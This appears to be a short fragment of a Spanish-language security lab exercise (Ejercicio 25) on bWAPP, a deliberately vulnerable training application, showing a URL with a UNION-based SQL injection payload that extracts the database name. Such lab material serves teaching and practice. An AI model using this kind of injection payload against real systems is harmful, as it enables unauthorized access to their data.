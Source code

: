 ![](24.png)

![](24.2.png)

### Ejercicio 25

Captura de pantalla mostrando cómo obtienes el nombre de la BBDD pero usando únicamente el proceso de modificar la URL.

```http
http://192.168.1.203/bWAPP/sqli_2.php?movie=-3+union+select+1,database(),3,4,5,6,7&action=go
```
